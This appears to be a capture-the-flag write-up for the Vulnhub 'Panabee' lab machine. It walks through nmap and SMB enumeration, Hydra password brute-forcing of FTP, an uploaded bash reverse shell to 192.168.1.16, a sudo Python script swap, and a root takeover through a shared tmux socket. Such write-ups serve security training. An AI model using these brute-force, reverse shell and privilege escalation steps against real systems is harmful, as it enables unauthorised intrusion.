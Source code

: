 ```yaml
---
title: Vulnhub - Panabee
description: My writeup on Panabee box.
categories:
 - vulnhub
tags: vulnhub smb ftp bash tmux python
---
```


![](https://pbs.twimg.com/profile_images/634463579433910272/qT21z1iG.png)

Hi all, let's pwn it! :)

You can find the machine there > [Panabee](https://www.vulnhub.com/entry/panabee-1,502/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.8                
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 14:04 EEST
Nmap scan report for panabee.zte.com.cn (192.168.1.8)
Host is up (0.0011s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:6C:D9:CE (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.36 seconds
$ nmap -p 21,22,25,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 14:04 EEST
Nmap scan report for panabee.zte.com.cn (192.168.1.8)
Host is up (0.00032s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: panabee, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=panabee
| Subject Alternative Name: DNS:panabee
| Not valid before: 2020-06-14T18:25:48
|_Not valid after:  2030-06-12T18:25:48
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 00:0C:29:6C:D9:CE (VMware)
Service Info: Host:  panabee; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -4s
|_nbstat: NetBIOS name: PANABEE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-12T11:05:08
|_  start_date: N/A
```

port 445 (SMB) seems interesting, let's enumerate it. 

SMB(server message block) is a protocol for sharing files.

First of all we have to list the shares, i always like to use the `smbclient` utility a client to access SMB shares.

```
$ smbclient -L //$ip    
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	note            Disk      Daily works
	IPC$            IPC       IPC Service (panabee server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

`note` share seems interesting, let's connect to it using null session (without a password or sending a blank password):

![](https://i.imgur.com/DqT69ZV.png)

`note.txt` provide us some useful info:

```
$ cat note.txt 
Dear goper, 

I'll just leave it here as a note,

Sorry for the late response,
The server will now `backup` you files in your home dir,
go ahead and backup anything you like, server will do it for you.

Please delete this note once you've read for security measure
```

```
1) username goper
2) backup your files in your home dir
```

## Shell as goper

Let's do FTP brute force using username `goper`:

```
$ hydra -l goper -P /usr/share/wordlists/rockyou.txt $ip ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-12 14:39:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.8:21/
[STATUS] 264.00 tries/min, 264 tries in 00:01h, 14344135 to do in 905:34h, 16 active
[21][ftp] host: 192.168.1.8   login: goper   password: spiderman
1 of 1 target successfully completed, 1 valid password found
```

Perfect. Let's connect to FTP & we can create a `backup.sh` file with a reverse shell in.

```
$ touch backup.sh
$ nano backup.sh 
$ cat backup.sh 
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.16/5555 0>&1
```

Let's upload it.

```
$ ftp $ip
Connected to 192.168.1.8.
220 (vsFTPd 3.0.3)
Name (192.168.1.8:root): goper
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put backup.sh
local: backup.sh remote: backup.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
55 bytes sent in 0.00 secs (271.2674 kB/s)
ftp> chmod 777 backup.sh
200 SITE CHMOD command ok.
```

We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...
goper@panabee:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
goper@panabee:~$ ^Z
[1]+  Stopped                 nc -lvp 5555
$ stty raw -echo
$ fg
goper@panabee:~$ 
```

## goper -> jenny

Now privesc to user `jenny` is really easy, let's check `sudo -l`:

```
goper@panabee:~$ sudo -l
Matching Defaults entries for goper on panabee:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goper may run the following commands on panabee:
    (jenny) NOPASSWD: /usr/bin/python3 /home/goper/status.py
```

We can run as `jenny` this python file. We can simple rename the `status.py` to `status2.py` and create our own `status.py` with our payload in.

```
goper@panabee:~$ mv status.py status2.py
goper@panabee:~$ touch status.py
goper@panabee:~$ cat - > status.py
import os
os.system("/bin/bash") 
^C
goper@panabee:~$ sudo -u jenny /usr/bin/python3 /home/goper/status.py
jenny@panabee:/home/goper$ whoami
jenny
```

## jeny -> root

Great! Now privesc to root is easy too. If we check the command history we can see lot of `tmux` stuff:

```
jenny@panabee:/home/goper$ history | grep tmux
   38  tmux -S shareds attach
   46  cd .tmux-sessions/
   55  cd .tmux-sessions/
   59  man tmux
   62  tmux -S shareds attach
   63  ps aux | grep tmux
   64  pkill tmux
   68  tmux -S shareds attach -t sharedsession
   72  tmux -S default attach
   75  tmux -S default attach
... more data ...
```

Really weird, this seems like session sharing. We have to simply run this command but first we have find the `default`:

```
jenny@panabee:/home/goper$ find / -name "default" 2>/dev/null
/opt/.tmux-0/sockets/default
```

```
jenny@panabee:/home/goper$ export TERM=xterm
jenny@panabee:/home/goper$ tmux -S /opt/.tmux-0/sockets/default attach
```

We have root shell:

```
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flag:

```
# cat proof.txt


 __                  __   ___  ___    
|__)  /\  |\ |  /\  |__) |__  |__     
|    /~~\ | \| /~~\ |__) |___ |___    
                                      

Congrats on rooting this machine. Give me a heads up at @aniqfakhrul on Twitter
```

Interesting box!

